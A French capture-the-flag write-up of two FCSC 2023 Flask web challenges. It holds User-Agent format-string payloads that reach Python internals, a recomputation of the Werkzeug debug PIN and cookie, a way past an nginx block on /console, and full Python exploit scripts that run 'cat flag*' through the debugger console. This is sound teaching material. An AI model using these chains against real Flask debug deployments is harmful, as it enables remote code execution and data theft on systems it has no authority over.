





Tweedle Dum & Dee | FCSC 2023
Introduction des deux challenges:
Au cours de ses aventures au Pays des merveilles, Alice a rencontré une curieuse paire de jumeaux : Tweedledee et Tweedledum. Les deux avaient créé un site web simpliste en utilisant Flask, une réalisation qui a suscité l'intérêt d'Alice. Avec son esprit curieux et son penchant pour la technologie, Alice ne pouvait s'empêcher de se demander si elle pouvait pirater leur création et en découvrir les secrets.
Tweedle Dee est dans la continuité de Tweedle Dum et c’est pour cela que je détaillerai ce dernier en première partie.
Tweedle Dum
Les sources de ce challenges sont fournies :
.
├── docker-compose.yml
├── Dockerfile
└── src
├── app.py
├── static
│ ├── style.css
│ └── tweedle.png
└── templates
└── index.html
La partie qui nous intéresse est le fichier app.py:
from flask import Flask, request, render_template
from werkzeug.middleware.proxy_fix import ProxyFix
from werkzeug.debug import DebuggedApplication
# No bruteforce needed, this is just here so you don't lock yourself or others out by accident
DebuggedApplication._fail_pin_auth = lambda self: None
app = Flask(__name__)
app.wsgi_app = ProxyFix(app.wsgi_app, x_for=1)
@app.route("/")
def hello_agent():
ua = request.user_agent
return render_template("index.html", msg=f"Hello {ua}".format(ua=ua))
# TODO: add the vulnerable code here
La challenge ce présente donc sous la forme d’une application web qui tourne sur le serveur flask.
Le seul endpoint qui semble atteignable est à la racine : https://tweedle-dum.france-cybersecurity-challenge.fr/

Si on se concentre sur le code, on comprend que notre User-Agent est render dans la template html:
render_template("index.html", msg=f"Hello {ua}".format(ua=ua))<div id="bubble">{{msg}}</div>(index.html)
Ce genre de code n’est pas vulnérable à une SSTI Server-Side-Template-Injection puisque la variable ua est correctement render.
En revanche une subtilité rend ce code vulnérable à une attaque par Format-String :
f"Hello {ua}".format(ua=ua)
La présence d’une double format string permet d’injecter un payload dans la variable ua
Explications :
-
La première format string agit de la sorte:
>>> ua = 'vozec' >>> f"Hello {ua}" 'Hello vozec' -
La seconde :
>>> ua = 'vozec' >>> "Hello {ua}".format(ua=ua) 'Hello vozec'
Vulnérabilité :
Si on injecte ce type d’entrée : {ua.__class__}, la première format-string va créer cette string:
"Hello {{ua.__class__}}"
et la seconde va render et remplacer ua.__class__ par l’objet python correspondant.
On peut vérifier de cette manière :
curl https://tweedle-dum.france-cybersecurity-challenge.fr -H 'User-Agent:{ua.__class__}'
- Résultat:
<html lang="en">
<head>
<meta charset="UTF-8" />
<meta http-equiv="X-UA-Compatible" content="IE=edge" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<title>Tweedle Dum</title>
<link rel="stylesheet" href="/static/style.css" />
</head>
<body>
<main>
<div id="bubble">Hello <class 'werkzeug.user_agent.UserAgent'></div>
</main>
<!-- <a href="/console">Werkzeug console</a> -->
</body>
</html>
Nous avons une <class 'werkzeug.user_agent.UserAgent'> en sortie de cette format string.
From Format-string to RCE:
On remarque dans l’html ce commentaire :
<a href="/console">Werkzeug console</a>
En y accédant, on se retrouve confronté à un code pin :

La présence de cette console de debug s’explique par la présence de cet argument passé dans l’application flask (Dockerfile) :
-
CMD ["flask", "run", "--host=0.0.0.0", "--port=2202", "--debug"]
L’idée ici va être de retrouver ce pin pour accéder à cette console et ainsi exécuter des commandes directement.
Cette théorie est appuyée par la présence de cette ligne dans app.py :
DebuggedApplication._fail_pin_auth = lambda self: None
Si on compare avec la fonction _fail_pin_auth originale (présente ici) :
def _fail_pin_auth(self) -> None:
time.sleep(5.0 if self._failed_pin_auth > 5 else 0.5)
self._failed_pin_auth += 1
On comprend que l’auteur du challenge réécris le compteur d’échec de tentative de pin pour empêcher d’être banni par le serveur et de ne plus pouvoir résoudre le challenge.
Récupération du pin :
On va se rendre dans le code source de werkzeug pour comprendre comment ce pin est généré : Lien: ici
Voici le code complet qui génère le pin :
probably_public_bits = [
username,
modname,
getattr(app, "__name__", type(app).__name__),
getattr(mod, "__file__", None),
]
private_bits = [str(uuid.getnode()), get_machine_id()]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode("utf-8")
h.update(bit)
h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"
if num is None:
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = "-".join(
num[x : x + group_size].rjust(group_size, "0")
for x in range(0, len(num), group_size)
)
break
else:
rv = num
Toute la génération se base sur 2 listes pour un total de 6 variables :
- probably_public_bits
- username
- modname
- app.__name__
- app.__file__
- private_bits
- uuid.getnode()
- get_machine_id()
Récupérons donc toute ces variables !
Username:
La valeur est spécifié dans le Dockerfile, c’est le nom d’utilisateur qui lance le serveur:
USER guest
Nous avons donc une partie des probably_public_bits: username=guest
Modname:
La valeur du modname est constante : modname=flask.app
App.__name__:
La valeur du app.__name__ est constante : app.__name__=Flask
App.__file__:
On cherche ici a récupérer le path du fichier app.py interne à flask. Ici, deux méthodes s’offrent à nous :
- Démarrer l’application en local avec le Dockerfile et récupérer le chemin d’accès.
- Utiliser le StackTrace de flask pour récupérer le path dans les logs verbeux renvoyés par le serveur.
J’ai utilisé la 2nd méthode.
Si on envoie un User-Agent avec une payload volontairement erronée comme {ua.__class__.vozec}, on obtient:

=> app.__file__=/usr/local/lib/python3.10/site-packages/flask/app.py
Uuid et MachineId
Vient ici toute la difficulté du challenge.
Nous allons devoir utiliser la format string pour faire fuiter ces informations.
On retourne dans le code source de werkzeug pour localiser ou sont ces informations.
-
La variable _machine_id est globale ce qui veut qu’elle est récupérable dans le module
werkzeug.debugici -
De même,
uuidest un module opensource présent dans le coeur de Python et la variable recherchée et elle aussi globale ici
Exploitation complète de la Format-String:
Au cours de mes recherches, j’ai trouvé ce writeup du TokyoWesterns CTF 2018 : Shrine writeup. Il est très instructif mais surtout, nous fournit ce code pour parcourir les objets python.
Notre but ici va être de trouver un moyen de :
- Accéder au modules
sys - Utiliser
syspour retrouver les autres modules - Accéder à
werkzeug.debug - Accéder à
werkzeug.debug.uuid._nodeetwerkzeug.debug._machine_id
On utilise ce code python pour explorer le module ua:
from flask import Flask, request, render_template
app = Flask(__name__)
@app.route("/")
def hello_agent():
best = 9999999999
ua = request.user_agent
for path, obj in search(ua, 50):
if str(obj).startswith("<module 'sys'"):
if len(path) < best:
best = len(path)
print(path)
return {'hello':'World'}
def search(obj, max_depth):
visited_clss = []
visited_objs = []
def visit(obj, path='obj', depth=0):
yield path, obj
if depth == max_depth:
return
elif isinstance(obj, (int, float, bool, str, bytes)):
return
elif isinstance(obj, type):
if obj in visited_clss:
return
visited_clss.append(obj)
# print(obj)
else:
if obj in visited_objs:
return
visited_objs.append(obj)
# attributes
for name in dir(obj):
if name.startswith('__') and name.endswith('__'):
if name not in ('__globals__', '__class__', '__self__',
'__weakref__', '__objclass__', '__module__'):
continue
attr = getattr(obj, name)
yield from visit(attr, '{}.{}'.format(path, name), depth + 1)
# dict values
if hasattr(obj, 'items') and callable(obj.items):
try:
for k, v in obj.items():
yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)
except:
pass
# items
elif isinstance(obj, (set, list, tuple, frozenset)):
for i, v in enumerate(obj):
yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)
yield from visit(obj)
On peut accéder au module sys de ces différentes manières :
-
{ua.__class__.__init__.__globals__[t].sys}
-
python
{ua.__class__.to_header.__globals__['__loader__'].__class__.__weakref__.__objclass__.get_data.__globals__['__loader__'].create_module.__globals__['__builtins__']['__build_css__'].__self__.copyright.__class__._Printer__setup.__globals__['sys']}
Résultat :
<div id="bubble">Hello <module 'sys' (built-in)></div>
On peut donc sélectionner le module werkzeug.debug:
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]}
puis enfin, les deux variables tant recherchées:
-
python
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}
-
python
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}
Combinaison des informations et RCE finale :
On peut donc tous lier pour obtenir le pin :
import requests
import re
import html
import hashlib
from itertools import chain
url = 'https://tweedle-dum.france-cybersecurity-challenge.fr'
def render(payload):
r = requests.get(url,headers={"User-Agent":payload}).text
return html.unescape(re.findall(r'Hello (.*?)</div>',r)[0])
machine_id = render(r'{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}')
uuid = eval(render(r'{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}')) # b'XXX-XXX-XXX...'
probably_public_bits = [
'guest',
'flask.app',
'Flask',
'/usr/local/lib/python3.10/site-packages/flask/app.py',
]
private_bits = [
machine_id,
uuid
]
num = None
rv = None
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode("utf-8")
h.update(bit)
h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"
if num is None:
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = "-".join(
num[x : x + group_size].rjust(group_size, "0")
for x in range(0, len(num), group_size)
)
break
else:
rv = num
print(rv)
Résultat :
[/mnt/c/Users/vozec/Desktop]$ python3 FCSC/Tweedle\ Dum.py
415-333-840
On peut donc le rentrer sur le /console et accéder à la console python. On flag finalement grâce au module os:
__import__('os').popen('cat flag*').read();

Tweedle Dee
Ce challenge est une version plus complexe du précédent. Encore une fois, le code source est fourni et voici les modifications:
.
├── docker-compose.yml
└── src
├── app
│ ├── app.py
│ ├── Dockerfile
│ ├── static
│ │ ├── style.css
│ │ └── tweedle.png
│ └── templates
│ └── index.html
└── nginx
├── Dockerfile
└── nginx.conf
Un nginx est configuré pour effectuer des restrictions sur certains end-points !
Voila le contenu de la configuration nginx présente dans nginx.conf :
worker_processes 4;
events {
use epoll;
worker_connections 128;
}
http {
charset utf-8;
access_log /dev/stdout combined;
error_log /dev/stdout debug;
real_ip_header X-Forwarded-For;
real_ip_recursive on;
set_real_ip_from 0.0.0.0/0;
server {
listen 2201;
server_name _;
location /console {
return 403 "Bye";
}
location @error {
return 500 "Bye";
}
location / {
error_page 500 503 @error;
proxy_intercept_errors on;
proxy_pass http://app:5000;
}
}
}
Les parties intéressantes sont ces deux lignes:
location /console {
return 403 "Bye";
}
location @error {
return 500 "Bye";
}
Le end-point de debug /console n’est plus accessible et la stackstrace d’erreur non plus. L’objectif quant à lui reste le même: RCE via le mode debug activé
Partie 1: Bypass de /console et premières réflexions.
La première chose que j’ai faite et de ré-utiliser le challenge précédent pour voir quelles requêtes étaient envoyés depuis mon navigateur. Deux en sont ressorties :
-
L’envoi du code pin au moment de l’authentification :
GET /console?__debugger__=yes&cmd=pinauth&pin=415-333-840&s=Reqj7S50iZAVj97HzbW4 HTTP/1.1 Host: tweedle-dum.france-cybersecurity-challenge.fr User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36 Sec-Ch-Ua-Platform: "Windows" Accept: */* Referer: https://tweedle-dum.france-cybersecurity-challenge.fr/console Connection: close -
L’envoi d’une commande via la console après authentification :
GET /console?&__debugger__=yes&cmd=__import__(%27os%27).popen(%27cat%20flag*%27).read()%3B&frm=0&s=Reqj7S50iZAVj97HzbW4 HTTP/1.1 Host: tweedle-dum.france-cybersecurity-challenge.fr Cookie: __wzdf352e7b3f2a1e68a6bbc=1682640498|145ff1701ade User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36 Sec-Ch-Ua-Platform: "Windows" Accept: */* Referer: https://tweedle-dum.france-cybersecurity-challenge.fr/console Connection: close
Il semblerai que la première étape soit de s’authentifier puis de passer une commande dans le paramètre cmd.
Problèmes :
1) /console interdit !
Il faut se rendre dans le code source de la partie debug de werkzeug pour comprendre : ici
On voit que ce qui trigger le code qui mène à la RCE est __call__.
Cela veut dire que n’importe quel end-point fonctionnerai de la même manière que /console !
Si on test avec le challenge précédent :

Bingo, On a trouvé un moyen de bypass le nginx ! Les paramètres à passer sont:
__debugger__= yescmd= …frm= …s= …
Sans oublier un header qui contient un cookie d’authentification (récupéré après l’authentification par code pin et secret):
Cookie: __wzdf352e7b3f2a1e68a6bbc=1682640498|145ff1701ade
Voici le code correspondant :
if request.args.get("__debugger__") == "yes":
cmd = request.args.get("cmd")
arg = request.args.get("f")
secret = request.args.get("s")
frame = self.frames.get(request.args.get("frm", type=int)) # type: ignore
if cmd == "resource" and arg:
response = self.get_resource(request, arg) # type: ignore
elif cmd == "pinauth" and secret == self.secret:
response = self.pin_auth(request) # type: ignore
elif cmd == "printpin" and secret == self.secret:
response = self.log_pin_request() # type: ignore
elif (
self.evalex
and cmd is not None
and frame is not None
and self.secret == secret
and self.check_pin_trust(environ)
):
response = self.execute_command(request, cmd, frame)
À ce stade, il nous manque :
- Le nom cookie d’authentification
- La valeur du cookie d’authentification
- le secret s
- la frame f
En suivant la création du cookie d’authentification, on tombe sur ces deux codes: 1 et 2
if auth:
rv.set_cookie(
self.pin_cookie_name,
f"{int(time.time())}|{hash_pin(pin)}",
httponly=True,
samesite="Strict",
secure=request.is_secure,
)
...
def hash_pin(pin: str) -> str:
return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]
Le cookie est calculable à partir du pin de l’application. Celui étant récupérable de la même manière que le challenge précédent, il ne nous pose plus de souci !
2) Récupérations des autres variables.
Notre méthode pour récupérer une variable n’est fonctionnelle que sur des variables présentent dans des objets python atteignables. Si on regarde la définition de secret: 1 et 2
class DebuggedApplication:
def __init__(...):
...
self.secret = gen_salt(20)
...
et
def gen_salt(length: int) -> str:
"""Generate a random string of SALT_CHARS with specified ``length``."""
if length <= 0:
raise ValueError("Salt length must be at least 1.")
return "".join(secrets.choice(SALT_CHARS) for _ in range(length))
On se rend compte que:
- le secret est généré de manière sécurisée aléatoirement
- secret est un attribut d’un objet instancié par la classe
DebuggedApplicationet nous n’avons pas d’accès direct à cet objet.
On peut suivre la création de ce dit objet DebuggedApplication dans la fonction run_simple ici
if use_debugger:
from .debug import DebuggedApplication
application = DebuggedApplication(application, evalex=use_evalex)
À partir de ce moment là, j’ai tenté de récupérer cet objet run_simple afin de remonter jusqu’à application puis secret sans succès …
Solution:
Grâce à la format string j’ai énuméré tous les modules chargés en mémoire:
{ua.__class__.__init__.__globals__[t].sys.modules}
Résultats :
'sys': <module 'sys' (built-in)>,
'builtins': <module 'builtins' (built-in)>,
'_frozen_importlib': <module '_frozen_importlib' (frozen)>,
'_imp': <module '_imp' (built-in)>,
'_thread': <module '_thread' (built-in)>,
'_warnings': <module '_warnings' (built-in)>,
...
'threading': <module 'threading' from '/usr/local/lib/python3.10/threading.py'>,
...
threading, threading ? THREADING ? … EUREKA !
Il est obligatoire que l’application flask fonctionne sur un thread qui loop infiniment. Dans le fichier serving.py de werkeug on lit dans la fonction run_simple:
srv.serve_forever()
On va ici essayer de retrouver le thread faisant tourné le serveur. Celui ci étant la racine de l’application Flask, il contiendra l’object python “WSGIApplication” contenant toutes les propriétées recherchées.
On peut tester en local pour trouver le chemin valide:
from flask import Flask, request, render_template
from werkzeug.debug import DebuggedApplication
import pdb,sys
app = Flask(__name__)
@app.route("/")
def search():
breakpoint()
return {'hello': 'world world'}
Dans la console:
[/mnt/c/Users/vozec/Desktop/explore]$ flask run --host=0.0.0.0 --port=2202 --debug
* Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:2202
* Running on http://172.20.86.75:2202
Press CTRL+C to quit
* Restarting with stat
* Debugger is active!
* Debugger PIN: 133-978-663
> /mnt/c/Users/vozec/Desktop/explore/app.py(10)search()
-> return {'hello': 'world world'}
(Pdb) dir(sys.modules['threading'])
['Barrier', 'BoundedSemaphore', 'BrokenBarrierError', 'Condition', 'Event', 'ExceptHookArgs', 'Lock', 'RLock', 'Semaphore', 'TIMEOUT_MAX', 'Thread', 'ThreadError', 'Timer', 'WeakSet', '_CRLock', '_DummyThread', '_HAVE_THREAD_NATIVE_ID', '_MainThread', '_PyRLock', '_RLock', '_SHUTTING_DOWN', '__all__', '__builtins__', '__cached__', '__doc__', '__excepthook__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_active', '_active_limbo_lock', '_after_fork', '_allocate_lock', '_count', '_counter', '_dangling', '_deque', '_enumerate', '_islice', '_limbo', '_main_thread', '_maintain_shutdown_locks', '_make_invoke_excepthook', '_newname', '_os', '_profile_hook', '_register_atexit', '_set_sentinel', '_shutdown', '_shutdown_locks', '_shutdown_locks_lock', '_start_new_thread', '_sys', '_threading_atexits', '_time', '_trace_hook', 'activeCount', 'active_count', 'currentThread', 'current_thread', 'enumerate', 'excepthook', 'functools', 'get_ident', 'get_native_id', 'getprofile', 'gettrace', 'local', 'main_thread', 'setprofile', 'settrace', 'stack_size']
(Pdb) sys.modules['threading']._active
{140263256440896: <_MainThread(MainThread, started 140263256440896)>, 140263224297152: <Thread(Thread-1 (serve_forever), started daemon 140263224297152)>, 140263215904448: <Thread(Thread-2 (process_request_thread), started daemon 140263215904448)>}
On retrouve le thread du serveur :
140263224297152: <Thread(Thread-1 (serve_forever), started daemon 140263224297152)>
On peut continuer notre exploration :
(Pdb) dir(sys.modules['threading']._active[140263224297152])
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_args', '_bootstrap', '_bootstrap_inner', '_daemonic', '_delete', '_ident', '_initialized', '_invoke_excepthook', '_is_stopped', '_kwargs', '_name', '_native_id', '_reset_internal_locks', '_set_ident', '_set_native_id', '_set_tstate_lock', '_started', '_stderr', '_stop', '_target', '_tstate_lock', '_wait_for_tstate_lock', 'daemon', 'getName', 'ident', 'isDaemon', 'is_alive', 'join', 'name', 'native_id', 'run', 'setDaemon', 'setName', 'start']
(Pdb) sys.modules['threading']._active[140263224297152]._target
<bound method BaseWSGIServer.serve_forever of <werkzeug.serving.ThreadedWSGIServer object at 0x7f9194246750>>
Et voilà, nous avons localisé BaseWSGIServer.serve_forever.
Si on creuse un petit peu plus :
(Pdb) dir(sys.modules['threading']._active[140263224297152]._target)
['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__func__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__self__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
(Pdb) dir(sys.modules['threading']._active[140263224297152]._target.__self__)
['RequestHandlerClass', '_BaseServer__is_shut_down', '_BaseServer__shutdown_request', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_handle_request_noblock', '_threads', 'address_family', 'allow_reuse_address', 'allow_reuse_port', 'app', 'block_on_close', 'close_request', 'daemon_threads', 'fileno', 'finish_request', 'get_request', 'handle_error', 'handle_request', 'handle_timeout', 'host', 'log', 'log_startup', 'multiprocess', 'multithread', 'passthrough_errors', 'port', 'process_request', 'process_request_thread', 'request_queue_size', 'serve_forever', 'server_activate', 'server_address', 'server_bind', 'server_close', 'service_actions', 'shutdown', 'shutdown_request', 'socket', 'socket_type', 'ssl_context', 'timeout', 'verify_request']
Voilà qui est intéressant 👀👀👀👀
(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app
<werkzeug.debug.DebuggedApplication object at 0x7f9193c3aad0>
(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app.secret
'f9OHRnZYhJq5sFAkV7aR'
(Pdb) sys.modules['threading']._active[140263224297152]._target.__self__.app.pin
'133-978-663'
sys.modules['threading']._active[140263224297152]._target.__self__.app.frames
{...}
Exploit final.
L’exploit final se réalise en 4 parties :
- La récupération de l’id du thread du serveur (140263224297152) dans l’exemple précédent
- La récupération du secret, d’une frame, et du pin directement
- L’authentification au serveur en forgeant un cookie
- La RCE via l’exécution du code
import requests
import re
import html
import hashlib
import time
hash_pin = lambda pin: hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]
def render(url,payload):
r = requests.get(url,headers={"User-Agent":payload}).text
return html.unescape(re.findall(r'Hello (.*?)</div>',r)[0])
def locate_id(url,):
res = render(url,r'{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active}')
return re.findall(r'\(serve_forever\), started daemon (.*?)\)>',res)[0]
def rce(cmd,url,secret,frame,session):
uri = '%s?__debugger__=yes&cmd=%s&frm=%s&s=%s'%(url,cmd,frame,secret)
return html.unescape(session.get(uri).text)
url = 'https://tweedle-dee.france-cybersecurity-challenge.fr'
id_thread = locate_id(url)
payload = '{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.%s}'
pin = render(url,payload%(id_thread,'pin'))
secret = render(url,payload%(id_thread,'secret'))
frames = render(url,payload%(id_thread,'frames'))
cookie_name = render(url,payload%(id_thread,'pin_cookie_name'))
sess = requests.Session()
sess.cookies.set(cookie_name,f"{int(time.time())}|{hash_pin(pin)}")
r = rce(
cmd = "__import__('os').popen('cat flag*').read()",
url = url,
secret = secret,
frame = re.findall(r'{([0-9]{15}):',frames)[0],
session = sess,
)
print(r)
Résultat:
>>> __import__('os').popen('cat flag*').read()
<span class="string">'FCSC{2c149fdce9b3db514fa6adf094121999fea5c38fbb3370350d90925238499cf2<span class="extended">}\n'</span></span>
Conclusion
C’était vraiment très sympa de faire ces challenges WEB, facile à comprendre et surtout très instructif.
Encore félicitation à Bitk et merci de m’avoir lu !
Références:
- podalirius.net | Vulnérabilité format string
- hacktricks | Werkzeug / Flask Debug
- John Hammond | Debug Mode Vulnerabilities
- Shrine | TokyoWesterns CTF 2018